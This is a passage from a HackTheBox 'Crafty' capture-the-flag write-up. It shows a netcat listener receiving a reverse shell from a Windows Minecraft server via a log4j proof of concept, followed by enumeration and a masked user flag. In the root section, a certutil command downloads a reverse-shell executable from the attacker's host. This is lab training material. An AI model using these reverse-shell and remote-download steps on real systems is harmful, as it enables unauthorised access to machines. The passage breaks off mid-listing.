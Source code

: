 ```powershell
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Crafty/log4j-shell-poc]
└──╼ $nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.129.180.159 49681
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server>whoami
whoami
crafty\svc_minecraft

c:\users\svc_minecraft\server>cd ../..
cd ../..

c:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\Users

10/24/2023  11:38 AM    <DIR>          .
10/24/2023  11:38 AM    <DIR>          ..
10/10/2020  07:17 AM    <DIR>          Administrator
10/26/2023  06:03 PM    <DIR>          Public
02/09/2024  01:18 PM    <DIR>          svc_minecraft
               0 File(s)              0 bytes
               5 Dir(s)   3,244,421,120 bytes free

c:\Users>cd svc_minecraft/Desktop
cd svc_minecraft/Desktop

c:\Users\svc_minecraft\Desktop>type user.txt
type user.txt
bfc957f2f0----------------------
```

# Root

## Minecraft Plugins

It did take a while to poke around in the environment. I checked many common vectors including running WinPEAS and I felt a little confused I didn't find any possible vector. I upgraded to a meterpreter session for ease of uploading or downloading. I decided to check back into the server location and check for non-default jar files. 



```powershell
c:\Users\svc_minecraft\Documents>certutil.exe -urlcache -f http://10.10.14.3:8081/revshell.exe revshell.exe
certutil.exe -urlcache -f http://10.10.14.3:8081/revshell.exe revshell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\Users\svc_minecraft\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\Users\svc_minecraft\Documents

02/16/2024  05:08 PM    <DIR>          .
```